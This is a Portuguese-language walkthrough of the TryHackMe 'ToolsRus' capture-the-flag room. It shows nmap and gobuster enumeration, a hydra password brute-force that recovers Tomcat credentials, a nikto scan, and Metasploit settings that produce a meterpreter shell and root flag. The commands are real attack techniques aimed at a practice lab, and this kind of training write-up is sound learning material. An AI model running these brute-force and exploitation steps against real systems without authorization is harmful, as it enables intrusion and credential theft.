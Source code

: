 # ToolsRus CTF


#### THM = https://tryhackme.com/room/toolsrus

> Alooow!

> Este é o meu primeiro roteiro do TRM e o desafio foi o ToolsRus
Vou compartilhar o meu caminho..

![alt text](https://i.imgur.com/fAFiFoI.png)

	Usei as seguintes ferramentas 
	-dirbuster
	-hydra
	-nmap
	-nikto
	-metasploit


# Identificando portas!
### nmap
  ```hnmap  -sV $IP```
![alt text](https://i.imgur.com/Q0EF01b.png)

### Gobuster 

Identificamos um servidor apache na porta 80 e curiosamente um Tomcat na porta 1234
Aplicamos o gobuster 
```gobuster dir -u http://10.10.139.47/ -w /usr/share/dirb/wordlists/common.txt```

![alt text](https://i.imgur.com/4UvdHSQ.png)

No diretório /guidelines encontramos o nome bob 

![alt text](https://i.imgur.com/WzIIRXh.png)

Na porta 1234 encontramos o Tomcat como esperado 

![alt text](https://i.imgur.com/CrxlCAt.png)

No diretório /protected identificamos a requisição de login e senha

![alt text](https://i.imgur.com/Fa7lkCQ.png)


Ja que identifiquei a porta 1234 vamos rodar um gobuster pra identificar novos diretórios

### Gobuster 

```gobuster dir -u http://10.10.139.47:1234/ -w /usr/share/dirb/wordlists/common.txt```

![alt text](https://i.imgur.com/59hvVpj.png)


Com a página de login encontrada vamos tentar quebrar a senha com o hydra usando o usuário bob que identificamos mais acima

### Hydra

```hydra -l bob -P /usr/share/wordlists/rockyou.txt 10.10.139.47 http-get /protected```

![alt text](https://i.imgur.com/L8XzFtT.png)

Aqui encontramos login e senha 
Com essas credenciais conseguimos autenticar no Tomcat manager

![alt text](https://i.imgur.com/HRNcu6W.png)

Essas credenciais não são suficientes ainda para logar via SSH.

### Nikto
``` nikto -id bob:bubbles -h http://10.10.139.47:1234/manager/ ```
![alt text](https://i.imgur.com/YzpLnLJ.png)
Nos traz algumas paginas para analisar.. 

Com um possivel usuario ```bob``` e uma tela de login podemos fazer uma forcinha bruta e tentar descobrir a senha...
### Bora metasploit

	-set RHOST $IPDESTINO
	-set RPORT 1234
	-set httpusername bob
	-set httppasword *****
	-run
![alt text](https://i.imgur.com/9z9dnZC.png)
# Sucesso! 
O meterpreter nos dar poder para enviar comandos para a máquina

![alt text](https://i.imgur.com/7ZbXGC9.png)
Dentro de /root/ conseguimos ler a flag.txt
```cat /root/flag.txt ```

![alt text](https://i.imgur.com/z2e1Dki.png)

Com a flag e root finalizo esta sala!

[]`s

